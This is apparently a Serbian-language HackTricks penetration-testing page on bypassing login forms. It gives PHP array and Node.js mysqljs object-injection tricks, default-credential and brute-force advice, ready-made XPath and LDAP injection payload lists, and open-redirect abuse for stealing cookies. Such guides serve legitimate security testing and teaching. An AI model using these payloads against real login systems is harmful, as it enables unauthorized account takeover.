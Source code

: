 # Login Bypass

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Radite li u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji kibernetički događaj u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je ključno mesto susreta tehnoloških i kibernetičkih profesionalaca u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

## **Bypassovanje redovne prijave**

Ako pronađete stranicu za prijavu, ovde možete pronaći neke tehnike za pokušaj zaobilaženja:

* Proverite da li postoje **komentari** unutar stranice (pomerite se nadole i udesno?)
* Proverite da li možete **direktno pristupiti ograničenim stranicama**
* Proverite da **ne šaljete parametre** (ne šaljite nijedan ili samo jedan)
* Proverite **PHP grešku poređenja:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Promenite tip sadržaja u json** i pošaljite json vrednosti (uključujući bool true)
* Ako dobijete odgovor koji kaže da POST nije podržan, možete pokušati da pošaljete **JSON u telu ali sa GET zahtevom** sa `Content-Type: application/json`
* Proverite potencijalnu grešku parsiranja u nodejs-u (pročitajte [**ovo**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs će transformisati tu payload u upit sličan sledećem: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` što čini da bit lozinke uvek bude tačan.
* Ako možete poslati JSON objekat, možete poslati `"password":{"password": 1}` da zaobiđete prijavu.
* Zapamtite da za zaobilaženje ove prijave i dalje morate **znati i poslati validno korisničko ime**.
* Dodavanje opcije `"stringifyObjects":true` prilikom pozivanja `mysql.createConnection` će na kraju **blokirati sve neočekivano ponašanje kada se `Object` prosledi** kao parametar.
* Proverite akreditive:
* [**Podrazumevane akreditive**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) korišćene tehnologije/platforme
* **Uobičajene kombinacije** (root, admin, password, ime tehnologije, podrazumevani korisnik sa jednom od ovih lozinki).
* Kreirajte rečnik koristeći **Cewl**, **dodajte** podrazumevano **korisničko ime i lozinku** (ako postoji) i pokušajte da je probijete koristeći sve reči kao **korisnička imena i lozinke**
* **Brute-force** koristeći veći **rečnik (**[**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### Zaobilaženje autentifikacije SQL Injection-om

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijave putem **SQL Injection-a**](../sql-injection/#authentication-bypass).

Na sledećoj stranici možete pronaći **prilagođenu listu za pokušaj zaobilaženja prijave** putem SQL Injection-a:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### Zaobilaženje autentifikacije bez SQL Injection-a

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijave putem **No SQL Injection-a**](../nosql-injection.md#basic-authentication-bypass)**.**

Pošto NoSQL Injection zahteva promenu vrednosti parametara, moraćete ih testirati ručno.

### Zaobilaženje autentifikacije XPath Injection-om

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijave putem **XPath Injection-a**](../xpath-injection.md#authentication-bypass)

```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### Bypass autentifikacije putem LDAP Injectiona

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijave putem **LDAP Injectiona**.](../ldap-injection.md#login-bypass)

```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

### Zapamti me

Ako stranica ima funkcionalnost "**Zapamti me**", proverite kako je implementirana i vidite da li je možete zloupotrebiti da **preuzmete kontrolu nad drugim nalozima**.

### Preusmeravanja

Stranice obično preusmeravaju korisnike nakon prijave, proverite da li možete promeniti to preusmeravanje da izazovete [**Otvoreno preusmeravanje**](../open-redirect.md). Možda možete ukrasti neke informacije (kodove, kolačiće...) ako preusmerite korisnika na svoj veb sajt.

## Ostale provere

* Proverite da li možete **nabrajati korisnička imena** zloupotrebom funkcionalnosti prijave.
* Proverite da li je **automatsko popunjavanje** aktivno u poljima za unos lozinke/**osetljive** informacije: `<input autocomplete="false"`

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji kibernetički događaj u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je ključno mesto susreta tehnoloških i kibernetičkih stručnjaka u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kibernetičkoj kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikova slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

